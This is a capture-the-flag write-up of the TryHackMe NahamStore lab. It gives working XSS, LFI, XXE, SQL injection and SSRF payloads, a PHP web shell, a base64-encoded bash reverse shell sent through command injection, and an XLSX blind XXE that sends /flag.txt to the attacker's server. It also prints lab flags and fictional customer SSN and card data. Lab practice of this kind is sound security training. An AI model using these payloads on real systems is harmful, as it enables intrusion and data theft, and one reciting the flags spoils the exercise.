# TryHackMe-NahamStore Writeup by Lynden
About NahamStore
- Room link: https://tryhackme.com/room/nahamstore
- It's a free room.

About this writeup
- Author: Lynden L.
- github: github.com/ll1a4x

---

## Table of Contents

- [Access (Task 1-2)](#access-task-1-2)
- [Information Gathering](#information-gathering)
- [XSS (Task 4)](#xss-task-4)
- [Open Redirect (Task 5)](#open-redirect-task-5)
- [CSRF (Task 6)](#csrf-task-6)
- [IDOR (Task 7)](#idor-task-7)
- [LFI (Task 8)](#lfi-task-8)
- [XXE (Task 10)](#xxe-task-10)
- [RCE (Task 11)](#rce-task-11)
- [Recon (Task 3)](#recon-task-3)
- [SSRF (Task 9)](#ssrf-task-9)
- [SQL Injection (Task 12)](#sql-injection-task-12)

---

## Access (Task 1-2)

`sudo openvpn ~/Documents/ovpn/your_TMH_account.ovpn`
- MY IP: 10.13.19.112  
- TARGET: 10.10.130.105  

`sudo vi /etc/hosts`
```
10.10.130.105 nahamstore.thm www.nahamstore.thm
```



---

## Information Gathering

NMAP Scanning
```
sudo nmap -vv -p0- 10.10.130.105 -oA allPorts -T4

sudo nmap -vv -p22,80,8000 -A 10.10.130.105 -oA openPorts
```




Visit the website
- With the nmap scanning results, we see there is a web directory `/admin` on port 8000.
- http://10.10.130.105:8000/admin
	- The credential is `admin:admin`
	- Marketing Manager Dashboard
- view-source:http://10.10.130.105:8000/admin
- `sudo vi /etc/hosts`
	```
	10.10.130.105 nahamstore.thm www.nahamstore.thm marketing.nahamstore.thm
	```




Fuzzing the subdomains
- `wfuzz -u http://10.10.130.105/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nahamstore.thm" --hc 404 -f wfuzz-subdomain.log`
	- We can see a lot of non-existing subdomains with "65 W" under "Word"
	

- Update the fuzzing option: `wfuzz -u http://10.10.130.105/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.nahamstore.thm" --hc 404 --hw 65 -f wfuzz-subdomain.log`


- `sudo vi /etc/hosts`
	```
	10.10.130.105 nahamstore.thm www.nahamstore.thm marketing.nahamstore.thm shop.nahamstore.thm stock.nahamstore.thm
	```


Enumerate the web directories
```
gobuster dir -u http://nahamstore.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 64 -o gobuster.log

dirb http://nahamstore.thm/ -o dirb.log


gobuster dir -u http://marketing.nahamstore.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 64 -o gobuster-marketing.log

dirb http://marketing.nahamstore.thm/ -o dirb-marketing.log


gobuster dir -u http://stock.nahamstore.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 64 -o gobuster-stock.log

dirb http://stock.nahamstore.thm/ -o dirb-stock.log


gobuster dir -u http://nahamstore.thm:8000/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 64 -o gobuster-8000.log

dirb http://nahamstore.thm:8000/ -o dirb-8000.log
```




---

## XSS (Task 4)

XSS 1: URL
- By the enumeration results of web directory on `http://marketing.nahamstore.thm/` previously, we can get the XSS on the URL below
	```
	http://marketing.nahamstore.thm/?error=<script>alert(1)</script>
	```


XSS 2: Stored XSS by HTTP header user-agent
- Discover it by placing an order with the registered account


- Open burpsuite
- Register a new account and place an order: `http://nahamstore.thm/account/orders/6`
- Use burpsuite to intercept the request and change the content of `User Agent` to be the followings
	```
	...
	User Agent: <script>alert(1)</script>
	...
	```





XSS 3: escaping HTML tag title
- Visit `http://nahamstore.thm` and click the image to get the following:
	```
	http://nahamstore.thm/product?id=1&name=Hoodie+%2B+Tee
	```
- Change the parameter `name` to a new name, we can see that the title is changed accordingly!
	```
	http://nahamstore.thm/product?id=1&name=NEW_N
	```


- `view-source:http://nahamstore.thm/product?id=1&name=NEW_N`
- Update the payload to inject XSS:
	```
	http://nahamstore.thm/product?id=1&name=</title><script>alert(1)</script>
	```



XSS 4: escaping JS variable by the hidden variable q
- Visit `http://nahamstore.thm/` and search something
	```
	view-source:http://nahamstore.thm/search?q=something
	```


- Then, inject the XSS payload:
	```
	http://nahamstore.thm/search?q=something'; alert(1)//"
	```



XSS 5: escaping HTML tag textarea
- Visit `http://nahamstore.thm/returns/`
- `view-source:http://nahamstore.thm/returns/`
	```
	...
	<div><textarea name="return_info" class="form-control">{Injected Payload Here!}</textarea></div>
	...
	```


- On the page `http://nahamstore.thm/returns/`, in the box of `Return Information`:
	```
	test</textarea></div> <script>alert(1)</script>
	```
- Then, click `Create Return` to get the XSS



XSS 6: Page Not Found
- Visit `http://nahamstore.thm/hey`

- `view-source:http://nahamstore.thm/hey`
	```
	...
	<h1 class="text-center">Page Not Found</h1>
	...
	```
- `http://nahamstore.thm/hey<script>alert(1)</script>`



XSS 7: unobvious parameter
- `http://nahamstore.thm/product?id=1`
- `view-source:http://nahamstore.thm/product?id=1`
	```
	...
	<div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value=""></div>
	...
	```
- `http://nahamstore.thm/product?id=1&discount=test`


- `http://nahamstore.thm/product?id=1&discount=test" onmouseover="alert(1)`
	- Move mouse over the box of discount, we can see the XSS.
	

---

## Open Redirect (Task 5)

Open Redirect 1: fuzzing the parameter in the root directory
```
ffuf -u "http://nahamstore.thm/?FUZZ=https://www.google.com" -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -mc 301,302 2>/dev/null -o ffuf.log
```
- `http://nahamstore.thm/?r=https://www.google.com`
	- This will redirect to `https://www.google.com/`




Open Redirect 2: account config parameter `redirect_url`
- With a registered account, login and add an item to the basket.
	- Go to `http://nahamstore.thm/basket` and click `Add Another Address`
	- Now, we have the URL: `http://nahamstore.thm/account/addressbook?redirect_url=/basket`
- Open a new tab and visit `http://nahamstore.thm/account/addressbook?redirect_url=https://www.google.com` 
	- After clicking `Add Address`, we are redirected to www.google.com



---

## CSRF (Task 6)

CSRF 1: verify CSRF protection
- Login with a registered account in the burpsuite
- Use burpsuite to inject `http://nahamstore.thm/account/settings/password`
- We can see this link has no CSRF protection




CSRF 2: CSRF projection parameter
- Login with a registered account in the burpsuite
- Use burpsuite to inject `http://nahamstore.thm/account/settings/email`
	```
	...

	csrf_protect=eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpZeU5qYzRNemN5SW4wPSIsInNpZ25hdHVyZSI6Ijg0Zjc0ZmYzNzViYjQwMGE0MzEwMjI1MzA1ZmZjZGQzIn0%3D&change_email=test1%40test.com
	```
- We see that `csrf_protect` is `base64` encoded.




---

## IDOR (Task 7)

IDOR 1: change the known parameter
- Open burpsuite
- With a registered account, login and add an item to the basket.
	- Go to `http://nahamstore.thm/basket`
	- Click an address (if not, create a random one to use)
- Change the parameter to be `address_id=3`, then forward the request






IDOR 2: discover the hidden parameter
- Open burpsuite
- With a registered account, login and add an item to the basket.
- Purchase that item
- Go to `view-source:http://nahamstore.thm/account/orders/4` to see the parameters `what` and `id`


- Go to `http://nahamstore.thm/account/orders/4` and click `PDF Receipt`
	- In the intercepted POST request, change the POST playload to `what=order&id=3`, then forward
	- We have new message `Order does not belong to this user_id`
	- This means we probably need the new prameter `user_id`
	

- Go to `http://nahamstore.thm/account/orders/4` and click `PDF Receipt`
	- In the intercepted POST request, change the POST payload to `what=order&id=3%26user_id%3d3`, then forward
	- Then, we are able to see order id 3's information
	


---

## LFI (Task 8)

LFI
- Go to `http://nahamstore.thm/`
- `view-source:http://nahamstore.thm/`
	```
	...
	<div class="image text-center"><a href="/product?id=2&name=Sticker+Pack"></a></div>
	...
	```


- Then, we have the URL `http://nahamstore.thm/product/picture/?file=cbf45788a7c3ff5c2fab3cbe740595d4.jpg`
- Go to `http://nahamstore.thm/product/picture/?file=../../../../../../../../../etc/passwd`
	- We got the message `File does not exist`
	

- Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#filter-bypass-tricks
- Go to `http://nahamstore.thm/product/picture/?file=....//....//....//....//....//etc/passwd`
	- We got the message `You not not have permission to view this file`
- Go to `http://nahamstore.thm/product/picture/?file=....//....//....//....//....//lfi/flag.txt`
	- Not able to see as an image
	

- `curl http://nahamstore.thm/product/picture/?file=....//....//....//....//....//lfi/flag.txt`
	- Get the flag: `{7ef60e74b711f4c3a1fdf5a131ebf863}`
	

---

## XXE (Task 10)

XXE 1: fuzzing parameters on api
- Go to `http://stock.nahamstore.thm/`
	- We see JSON data `{"server":"stock.nahamstore.thm","endpoints":[{"url":"\/product"}]}`
- Go to `http://stock.nahamstore.thm/product/1`
	- We see JSON data `{"id":1,"name":"Hoodie + Tee","stock":56}`
- `curl -X POST "http://stock.nahamstore.thm/product/1"`
	- `["Missing header X-Token"]`
- `curl --header "X-Token: xxxxxxx" -X POST "http://stock.nahamstore.thm/product/1"`
	- `["X-Token xxxxxxx is invalid"]`
- Fuzz to get some potential parameters: `wfuzz -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u "http://stock.nahamstore.thm/product/1?FUZZ" --hw 3 -f wfuzz-xxe.log`


- `curl -X POST "http://stock.nahamstore.thm/product/1?xml"`
	```
	<?xml version="1.0"?>
	<data><error>Invalid XML supplied</error></data>
	```
- Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe
	- Payload: `<?xml version="1.0"?><!DOCTYPE data [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><data>&read;</data>`
- In burpsuite's repeater, POST the payload
	- But, we get the error message `X-Token not supplied`
	

	- Update the payload to be `<?xml version="1.0"?><!DOCTYPE data [<!ENTITY read SYSTEM 'file:///etc/passwd'>]><data><X-Token>&read;</X-Token></data>`
	- Now, we have PoC of XXE
	

- Update the XXE payload to be `<?xml version="1.0"?><!DOCTYPE data [<!ENTITY read SYSTEM 'file:///flag.txt'>]><data><X-Token>&read;</X-Token></data>`
	- Get the flag: `{9f18bd8b9acaada53c4c643744401ea8}`
	


XXE 2: BLind XXE by uploading a .xlsx file

Blind XXE
- Go to `http://nahamstore.thm/staff`
	- This page shows a message `Staff Members Only!` and allows uploading xlsx file
	

- Ref: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file
- Step 1: Create the uploading payload book1.xlsx file 
	- We can use microsoft excel, libre office Calc, or apache open office to create book1.xlsx in the CWD
	- `unzip book1.xlsx -d book1/`
	- `mousepad book1/xl/workbook.xml` and change to the following payload:
		```
		<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
		<!DOCTYPE xxe [<!ELEMENT xxe ANY ><!ENTITY % asd SYSTEM "http://10.13.19.112/my.xml">
		%asd;
		%param1;
		]>
		<xxe>&xxedata;</xxe>
		```
	- `cd book1 && zip -r ../book2.xlsx * && cd ..`
	

- Step 2: create the my.xml to read the data
	- `mousepad my.xml` in the CWD
		```
		<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
		<!ENTITY % param1 "<!ENTITY xxedata SYSTEM 'http://10.13.19.112/?%data;'>">
		```
	

- Step 3: trigger it
	- `python -m http.server 80`
	- Go to `http://nahamstore.thm/staff` and upload `book2.xlsx`
	- In the python http server, we get a base64 string: `e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=`
	- `echo e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo= | base64 -d`
		- Get the flag: `{d6b22cb3e37bef32d800105b11107d8f}`
	

---

## RCE (Task 11)

RCE 1: edit the source code in the management console
- Go to `http://nahamstore.thm:8000/admin/login` and login with credential `admin:admin`
- Go to `http://nahamstore.thm:8000/admin/8d1952ba2b3c6dcd76236f090ab8642c`
	- At the end of the source code, add `<?php echo shell_exec($_GET['cmd']); ?>`
	- Click `Update`
	

- `view-source:http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c?cmd=cat /etc/hosts`
	- We have RCE
	

- `view-source:http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c?cmd=cat /flag.txt`
	- Get the flag: `{b42d2f1ff39874d56132537be62cf9e3}`
	


RCE 2: command injection in the hidden POST parameter on the pdf-generator
- Step 1: prepare for the payload
	- `echo "bash -i >& /dev/tcp/10.13.19.112/443 0>&1" | base64`
		```
		YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMy4xOS4xMTIvNDQzIDA+JjEK
		```
	- Go to `https://www.urlencoder.org/`
		- Get the final payload: `%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMy4xOS4xMTIvNDQzIDA%2BJjEK%20%7C%20base64%20-d%20%7C%20bash%60`

			

	- Get the `session` and `token` cookies
		- Go to `http://nahamstore.thm/` and press F12 -> Storage -> Cookies
		- `session=76953d72488ff673cfdcf64de60d06b9` 
		- `token=ee70cc78197876faa9f83fe2e5be3e96`

		

- Step 2: trigger to get reverse shell
	- `nc -nvlp 443`
	- `curl --cookie "session=76953d72488ff673cfdcf64de60d06b9;token=ee70cc78197876faa9f83fe2e5be3e96" -X POST -d "what=order&id=4%60echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMy4xOS4xMTIvNDQzIDA%2BJjEK%20%7C%20base64%20-d%20%7C%20bash%60" "nahamstore.thm/pdf-generator"`
- In the shell:
	- `cat /etc/hosts` (collect more inforamtion on the target)
	- `cat /flag.txt`
		- Get the flag: `{93125e2a845a38c3e1531f72c250e676}`

		

---

## Recon (Task 3)

Update the `/etc/hosts` for the target
- In the previous section (RCE 2), we get more information about the subdomains on the target, then let's update the host file
- `sudo vi /etc/hosts`
	```
	10.10.130.105 nahamstore.thm www.nahamstore.thm marketing.nahamstore.thm shop.nahamstore.thm stock.nahamstore.thm nahamstore-2020.nahamstore.thm nahamstore-2020-dev.nahamstore.thm internal-api.nahamstore.thm
	```

Enumerate the web directories of the new subdomain: `nahamstore-2020-dev` by fuzzing and curling
- `wfuzz -u http://nahamstore-2020-dev.nahamstore.thm/FUZZ/ -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 -f wfuzz-nahamstore-2020-dev.log`
	

- `curl http://nahamstore-2020-dev.nahamstore.thm/api/`
	```
	{"server":"nahamstore-2020-dev.nahamstore.thm"}
	```
- `wfuzz -u http://nahamstore-2020-dev.nahamstore.thm/api/FUZZ/ -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 -f wfuzz-nahamstore-2020-dev_api.log`
	

- `curl http://nahamstore-2020-dev.nahamstore.thm/api/customers/`
	```
	["customer_id is required"]
	```
- `curl http://nahamstore-2020-dev.nahamstore.thm/api/customers/?customer_id=2`
	```
	{"id":2,"name":"Jimmy Jones","email":"jd.jones1997@yahoo.com","tel":"501-392-5473","ssn":"521-61-6392"}
	```
	

- So, the SSN of Jimmy Jones is `521-61-6392`

---

## SSRF (Task 9)

SSRF: redirecting to visit the internal subdomain: `internal-api`
- In burpsuite, visit `http://nahamstore.thm/product?id=1`
	- Click `Check Stock` to interject the request
	- We can see the POST parameters `product_id` and `server`
	```
	product_id=1&server=stock.nahamstore.thm
	```
	

- Use `curl` with special characters `@` for redirecting and `#` to comment out the follow-up code
	- `curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/#" http://nahamstore.thm/stockcheck`
		```
		{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
		```
	- `curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders#" http://nahamstore.thm/stockcheck`
		```
		[{"id":"4dbc51716426d49f524e10d4437a5f5a","endpoint":"\/orders\/4dbc51716426d49f524e10d4437a5f5a"},{"id":"5ae19241b4b55a360e677fdd9084c21c","endpoint":"\/orders\/5ae19241b4b55a360e677fdd9084c21c"},{"id":"70ac2193c8049fcea7101884fd4ef58e","endpoint":"\/orders\/70ac2193c8049fcea7101884fd4ef58e"}]
		```
		
	- `curl -X POST -d "product_id=2&server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#" http://nahamstore.thm/stockcheck/`
		```
		{"id":"5ae19241b4b55a360e677fdd9084c21c","customer":{"id":2,"name":"Jimmy Jones","email":"jd.jones1997@yahoo.com","tel":"501-392-5473","address":{"line_1":"3999  Clay Lick Road","city":"Englewood","state":"Colorado","zipcode":"80112"},"items":[{"name":"Hoodie + Tee","cost":"25.00"}],"payment":{"type":"MasterCard","number":"5190216301622131","expires":"11\/2023","CVV2":"223"}}}
		```
		

	- Get the Credit Card Number For Jimmy Jones: `5190216301622131`
	
---

## SQL Injection (Task 12)

SQL Injection 1: GET parameter in the URL
- Open Firefox browser.
- Identify: 
	- `http://nahamstore.thm/product?id=1%27`
		```
		You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 1' at line 1
		```
	- `http://nahamstore.thm/product?id=1%20union%20all%20select%201`
		```
		The used SELECT statements have a different number of columns
		```
	- `http://nahamstore.thm/product?id=1%20union%20all%20select%201,2,3,4,5`
		- This is just a normal page
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,2,3,4,5`
		- This shows updated info with the parameter number 2,3,4
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,@@version,3,4,5`
		- This shows the version of sql database
		

- Exploit:
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,user(),3,4,5`
		```
		nahamstore_sqli1@localhost
		```
	- `http://nahamstore.thm/product?id=-1%20union%20all%20select%201,flag,3,4,5%20from%20sqli_one`
		

		- Get the flag: `{d890234e20be48ff96a2f9caab0de55c}`


SQL Injection 2: Blind SQLi
- Let's use the SQLMap for the quick blind sql injection
- First, use burpsuite to get the req information by send POST payloads on `http://nahamstore.thm/returns`
	

- `vi req.txt`
	```
	POST /returns HTTP/1.1
	Host: nahamstore.thm
	Content-Length: 347
	Cache-Control: max-age=0
	Upgrade-Insecure-Requests: 1
	Origin: http://nahamstore.thm
	Content-Type: multipart/form-data; boundary=----WebKitFormBoundary91queA4XdWkBz5By
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
	Referer: http://nahamstore.thm/returns
	Accept-Encoding: gzip, deflate
	Accept-Language: en-US,en;q=0.9
	Cookie: token=5669527fec99383bd4f08059d3c694d1; session=af13fc559d7f52e5fe233ab4ab119280
	Connection: close

	------WebKitFormBoundary91queA4XdWkBz5By
	Content-Disposition: form-data; name="order_number"

	3
	------WebKitFormBoundary91queA4XdWkBz5By
	Content-Disposition: form-data; name="return_reason"

	1
	------WebKitFormBoundary91queA4XdWkBz5By
	Content-Disposition: form-data; name="return_info"

	test
	------WebKitFormBoundary91queA4XdWkBz5By--

	```
- `sqlmap -r req.txt --level 3 --risk 3 --dbs`
	```
	...
	[18:43:46] [INFO] parsing HTTP request from 'req.txt'
	Multipart-like data found in POST body. Do you want to process it? [Y/n/q] y
	Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] n
	[18:44:07] [INFO] resuming back-end DBMS 'mysql' 
	[18:44:07] [INFO] testing connection to the target URL
	got a 302 redirect to 'http://nahamstore.thm:80/returns/1?auth=c4ca4238a0b923820dcc509a6f75849b'. Do you want to follow? [Y/n] n
	...
	available databases [2]:
	[*] information_schema
	[*] nahamstore
	...
	```
		- We have confirmed the target database `nahamstore`
	

- `sqlmap -r req.txt --level 3 --risk 3 -D nahamstore --tables`
	```
	...
	[18:49:02] [INFO] parsing HTTP request from 'req.txt'
	Multipart-like data found in POST body. Do you want to process it? [Y/n/q] y
	Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] n
	[18:49:15] [INFO] resuming back-end DBMS 'mysql' 
	[18:49:15] [INFO] testing connection to the target URL
	got a 302 redirect to 'http://nahamstore.thm:80/returns/3?auth=eccbc87e4b5ce2fe28308fd9f2a7baf3'. Do you want to follow? [Y/n] n
	...
	Database: nahamstore
	[2 tables]
	+----------+
	| order    |
	| sqli_two |
	+----------+
	...
	```
		- We have confirmed the target table `sqli_two`
	

- `sqlmap -r req.txt --level 3 --risk 3 -D nahamstore -T sqli_two --dump`
	```
	...
	[18:51:56] [INFO] parsing HTTP request from 'req.txt'
	Multipart-like data found in POST body. Do you want to process it? [Y/n/q] y
	Cookie parameter 'token' appears to hold anti-CSRF token. Do you want sqlmap to automatically update it in further requests? [y/N] n
	[18:51:59] [INFO] resuming back-end DBMS 'mysql' 
	[18:51:59] [INFO] testing connection to the target URL
	got a 302 redirect to 'http://nahamstore.thm:80/returns/4?auth=a87ff679a2f3e71d9181a67b7542122c'. Do you want to follow? [Y/n] n
	...
	Database: nahamstore
	Table: sqli_two
	[1 entry]
	+----+------------------------------------+
	| id | flag                               |
	+----+------------------------------------+
	| 1  | {212ec3b036925a38b7167cf9f0243015} |
	+----+------------------------------------+
	...
	```
	
	- Get the flag: `{212ec3b036925a38b7167cf9f0243015}`
	
---
